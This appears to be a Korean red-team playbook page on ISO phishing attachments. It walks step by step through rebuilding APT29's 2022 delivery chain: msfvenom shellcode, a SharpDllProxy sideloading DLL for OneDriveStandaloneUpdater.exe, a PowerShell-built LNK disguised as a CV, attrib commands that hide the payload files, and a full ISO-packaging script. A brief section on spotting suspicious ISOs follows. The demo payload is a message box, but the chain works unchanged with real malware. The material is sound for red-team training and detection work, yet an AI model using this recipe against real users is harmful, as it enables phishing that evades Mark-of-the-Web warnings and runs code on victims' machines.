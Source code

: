 # ISO

악성 오피스 문서의 시대가 저무며 공격자들은 더 다양한 피싱 첨부파일 형태를 찾기 시작했다. 2022년도 기준으로 실제 공격자들이 공격에 자주 쓰는 확장자 중 하나는 바로 `.iso` 이다. ISO (Optical Disk Image) 파일 포멧은 이미지 파일로도 불리며, CD/DVD/블루레이 등의 옵티컬 디스크의 특징을 갖고 있는 파일 포멧 중 하나다. &#x20;

공격자들이 ISO 파일을 피싱 첨부파일로 자주 사용하는 이유는 다음과 같다:&#x20;

#### 1. Mark of the Web (MOTW) 가 없다&#x20;

인터넷에서 다운 받은 `.exe` `.dll` 등의 파일들은 윈도우의 NTFS 파일 시스템의 특징 중 하나인 Alternate Data Stream (ADS) 에 "인터넷에서 다운 받은 파일" 이라는 낙인(?)이 찍힌다. 이것을 Mark of the Web 이라고 부른다. MotW 이 찍힌 파일은 실행하려고 하면 유저에게 경고창을 띄우는 역할을 담당한다. 이는 피싱 첨부파일을 유저가 실행하지 않도록 하는데 큰 도움을 준다.&#x20;

![이런 경고창 한 번 쯤은 본 기억이 있지 않은가](<../../.gitbook/assets/image (11).png>)

하지만 이런 MotW 낙인이 붙지 않는 파일 확장자들도 있다. 7Z, ZIP, ISO, IMG, CAB 등의 파일 확장자들이 대표적이다.&#x20;

#### 2. ISO는 압축 파일 형태다&#x20;

ISO 파일들은 컴팩트 디스크 이미지 파일이고, ISO 파일 포멧안에는 여러개의 파일을 압축시켜 놓을 수 있다. 사실상 공격자의 입장에서는 `.zip` 혹은 `.7z` 와 같은 파일을 보내는 것이다. ISO 파일 안에 다른 페이로드들을 같이 숨겨 압축 시켜 놓은 형태로 파일을 전송한다. 이때 숨김 파일 (TODO: 페이지 생성 + 링크) 기법을 이용해 ISO 안에 다른 파일들이 보이지 않도록 하는 방법도 쓴다.&#x20;

#### 3. 실행이 간편하다&#x20;

피해자 유저가 ISO 파일을 더블클릭을 하면 파일은 자동적으로 파일 시스템에 마운트가 되며, 그 안의 파일들은 모두 압축이 풀린 형태로 파일 시스템에 쓰여진다. 그러면서 피해자 유저는 압축 풀린 페이로드들이 있는 디렉토리에 도달하게 된다.&#x20;



### 실습&#x20;

실습에서는 APT29 그룹이 2022년 7월 [실제 공격](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)에 사용했던 페이로드를 똑같이 재현해본다. APT29 러시아의 해외정보국 (SVR) 이라고 추측되는 그룹이다.&#x20;

7월달 공격에서 APT29는 ISO 파일 안에 마이크로소프트사의 바이너리인 `OneDriveStandAloneUpdater.exe` 를 넣은 뒤, `version.dll` DLL 파일을 사이드로딩을 했다. 사이드로딩을 실행하는데에는 자기소개서/레지메처럼 생긴 LNK 파일을 사용했다. 이 모든 페이로드들을 담고 있 ISO 파일 안의 페이로드들은 다음과 같다:&#x20;

1. OneDriveStandAloneUpdater.exe - 마이크로소프트사의 공식 바이너리&#x20;
2. version.dll - 공격자의 프록시 DLL&#x20;
3. vresion.dll - 진짜 version.dll 파일. APT29 그룹은 `vresion` 으로 이름을 바꿨다.&#x20;
4. OneDrive.Update - 공격자의 쉘코드. 프록시 DLL 안에 넣어도 되는데 APT29는 굳이 파일 시스템에 저장했다.&#x20;
5. `Roshan-Bandara_CV_Dialog.lnk` - OneDriveStandAloneUpdater.exe 파일을 실행시킬 LNK 파일. LNK 파일이 악성코드에 사용될 수 있는 방법은 [LNK 첨부파일 페이지](lnk.md)를 참고한다.&#x20;

페이로드들은 다음과 같이 생성한다:&#x20;

1. 쉘코드를 생성한다&#x20;

```
msfvenom -p windows/x64/messagebox text="Stage0 shellcode" title="choi redteam playbook" -f raw -o OneDrive.Update
```

2\. SharpDLLProxy 를 통해 dllsideloading 을 할 프록시 DLL을 만든다. SharpDllProxy 를 실행 한 뒤 `version.dll` 은 `vresion.dll` 로 이름을 바꾼 뒤, DLL 사이드로딩을 할 디렉토리로 옮긴다.&#x20;

```
# <SharpDLLProxy directory...> 
cp c:\windows\system32\version.dll . 
./SharpDllProxy.exe --dll version.dll --payload OneDrive.Update

cp ./version.dll c:\opt\dllsideloading\vresion.dll 
```

3\. SharpDLLProxy 가 만든 `.c` 파일을 수정한 뒤, 컴파일 한다. 맨 위의 `pragma comment` 에서 DLL 이름을 `tmpXXXX` 에서 `vresion` 으로 수정해주면 끝이다.&#x20;

![](<../../.gitbook/assets/image (5).png>)

4\. version.dll 로 컴파일 한다.&#x20;

5\. LNK 페이로드를 만든다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\opt\dllsideloading\Roshan-Bandara_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\cmd.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
# If you have office16, use the icon below 
#$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start OneDriveStandaloneUpdater.exe"
$link.save()
```

6\. 이후 `OneDriveStandaloneUpdater.exe`, `version.dll`, `vresion.dll`, `OneDrive.Update` , `Roshan-Bandara_CV_Dialog.lnk` 를 모두 ISO를 만들 디렉토리로 옮긴다.&#x20;

7\. `attrib.exe +h` 를 이용해 lnk 파일을 제외한 모든 파일들은 숨김 처리를 해준다.&#x20;

```
attrib.exe +h .\OneDrive.Update
attrib.exe +h .\OneDriveStandaloneUpdater.exe
attrib.exe +h .\version.dll
attrib.exe +h .\vresion.dll
```

8\. 마지막으로 iso를 다음의 파워쉘 스크립트를 이용해 만든다. 원본은 여기있다&#x20;

<details>

<summary>New-ISOFile.ps1</summary>

```
# https://github.com/SQLDBAWithABeard/Functions/blob/master/New-IsoFile.ps1
function New-IsoFile 
{  
  <# .Synopsis Creates a new .iso file .Description The New-IsoFile cmdlet creates a new .iso file containing content from chosen folders .Example New-IsoFile "c:\tools","c:Downloads\utils" This command creates a .iso file in $env:temp folder (default location) that contains c:\tools and c:\downloads\utils folders. The folders themselves are included at the root of the .iso image. .Example New-IsoFile -FromClipboard -Verbose Before running this command, select and copy (Ctrl-C) files/folders in Explorer first. .Example dir c:\WinPE | New-IsoFile -Path c:\temp\WinPE.iso -BootFile "${env:ProgramFiles(x86)}\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg\efisys.bin" -Media DVDPLUSR -Title "WinPE" This command creates a bootable .iso file containing the content from c:\WinPE folder, but the folder itself isn't included. Boot file etfsboot.com can be found in Windows ADK. Refer to IMAPI_MEDIA_PHYSICAL_TYPE enumeration for possible media types: http://msdn.microsoft.com/en-us/library/windows/desktop/aa366217(v=vs.85).aspx .Notes NAME: New-IsoFile AUTHOR: Chris Wu LASTEDIT: 03/23/2016 14:46:50 #> 
   
  [CmdletBinding(DefaultParameterSetName='Source')]Param( 
    [parameter(Position=1,Mandatory=$true,ValueFromPipeline=$true, ParameterSetName='Source')]$Source,  
    [parameter(Position=2)][string]$Path = "$env:temp\$((Get-Date).ToString('yyyyMMdd-HHmmss.ffff')).iso",  
    [ValidateScript({Test-Path -LiteralPath $_ -PathType Leaf})][string]$BootFile = $null, 
    [ValidateSet('CDR','CDRW','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','BDR','BDRE')][string] $Media = 'DVDPLUSRW_DUALLAYER', 
    [string]$Title = (Get-Date).ToString("yyyyMMdd-HHmmss.ffff"),  
    [switch]$Force, 
    [parameter(ParameterSetName='Clipboard')][switch]$FromClipboard 
  ) 
  
  Begin {  
    ($cp = new-object System.CodeDom.Compiler.CompilerParameters).CompilerOptions = '/unsafe' 
    if (!('ISOFile' -as [type])) {  
      Add-Type -CompilerParameters $cp -TypeDefinition @'
public class ISOFile  
{ 
  public unsafe static void Create(string Path, object Stream, int BlockSize, int TotalBlocks)  
  {  
    int bytes = 0;  
    byte[] buf = new byte[BlockSize];  
    var ptr = (System.IntPtr)(&bytes);  
    var o = System.IO.File.OpenWrite(Path);  
    var i = Stream as System.Runtime.InteropServices.ComTypes.IStream;  
   
    if (o != null) { 
      while (TotalBlocks-- > 0) {  
        i.Read(buf, BlockSize, ptr); o.Write(buf, 0, bytes);  
      }  
      o.Flush(); o.Close();  
    } 
  } 
}  
'@  
    } 
   
    if ($BootFile) { 
      if('BDR','BDRE' -contains $Media) { Write-Warning "Bootable image doesn't seem to work with media type $Media" } 
      ($Stream = New-Object -ComObject ADODB.Stream -Property @{Type=1}).Open()  # adFileTypeBinary 
      $Stream.LoadFromFile((Get-Item -LiteralPath $BootFile).Fullname) 
      ($Boot = New-Object -ComObject IMAPI2FS.BootOptions).AssignBootImage($Stream) 
    } 
  
    $MediaType = @('UNKNOWN','CDROM','CDR','CDRW','DVDROM','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','HDDVDROM','HDDVDR','HDDVDRAM','BDROM','BDR','BDRE') 
  
    Write-Verbose -Message "Selected media type is $Media with value $($MediaType.IndexOf($Media))"
    ($Image = New-Object -com IMAPI2FS.MsftFileSystemImage -Property @{VolumeName=$Title}).ChooseImageDefaultsForMediaType($MediaType.IndexOf($Media)) 
   
    if (!($Target = New-Item -Path $Path -ItemType File -Force:$Force -ErrorAction SilentlyContinue)) { Write-Error -Message "Cannot create file $Path. Use -Force parameter to overwrite if the target file already exists."; break } 
  }  
  
  Process { 
    if($FromClipboard) { 
      if($PSVersionTable.PSVersion.Major -lt 5) { Write-Error -Message 'The -FromClipboard parameter is only supported on PowerShell v5 or higher'; break } 
      $Source = Get-Clipboard -Format FileDropList 
    } 
  
    foreach($item in $Source) { 
      if($item -isnot [System.IO.FileInfo] -and $item -isnot [System.IO.DirectoryInfo]) { 
        $item = Get-Item -LiteralPath $item
      } 
  
      if($item) { 
        Write-Verbose -Message "Adding item to the target image: $($item.FullName)"
        try { $Image.Root.AddTree($item.FullName, $true) } catch { Write-Error -Message ($_.Exception.Message.Trim() + ' Try a different media type.') } 
      } 
    } 
  } 
  
  End {  
    if ($Boot) { $Image.BootImageOptions=$Boot }  
    $Result = $Image.CreateResultImage()  
    [ISOFile]::Create($Target.FullName,$Result.ImageStream,$Result.BlockSize,$Result.TotalBlocks) 
    Write-Verbose -Message "Target image ($($Target.FullName)) has been created"
    $Target
  } 
} 
```

</details>

```
# Move to the payload directory and create the ISO file 
. ./New-ISOFile.ps1 
cd c:\opt\dllsideloading 
get-childitem . -Force | New-IsoFile -Path C:\opt\Roshan_CV.iso
```

완성된 페이로드는 다음과 같다.&#x20;



![](../../.gitbook/assets/apt29-iso.gif)

ISO를 더블클릭하면 드라이브에 마운트가 된다. 안에는 LNK 파일 밖에 보이지 않지만, 실제로는 숨겨진 파일들이 존재하고, 이 파일들이 DLL 사이드로딩을 일으켜 페이로드가 실행되게 된다.&#x20;



### 대응 방안&#x20;

ISO 파일은 수상하다. 왠만한 웹앱 기반의 이메일이나 이메일 솔루션들은 파일을 다운 받기 전 파일의 확장자를 보여준다. 분명 본인이 디스크 파일을 다운 받는 것이 아닌데 다른 사람이 뜬금없이 ISO 파일을 보내왔다면, 더 주의를 기울이도록 하자.&#x20;

예를 들어 APT 29 같은 경우 외국의 자기소개서/레지메 같은 CV 파일을 ISO 파일에 담아서 보냈다. 회사 지원시 레지메를 낼 때 PDF 말고 다른 확장자를 썼던 기억이 있던가? 없다. 이처럼 ISO 확장자가 굳이 필요한 상황이 아닌데 상대방이 ISO 파일을 보내왔다면 조심한다. &#x20;

그외에는 윈도우 익스플로러의 View -> Options -> View 에서 다음과 같은 옵션들을 활성화 시킨다.&#x20;

* Show hidden files, folders, and drives (숨겨진 파일, 폴더, 드라이브 보이기) **활성화**&#x20;
* Hide extensions from known file types (잘 알려진 파일 확장자 숨기기) **비활성화**



### 레퍼런스&#x20;

{% embed url="https://github.com/mgeeky/PackMyPayload" %}

{% embed url="https://outflank.nl/blog/2020/03/30/mark-of-the-web-from-a-red-teams-perspective/" %}

{% embed url="https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/" %}

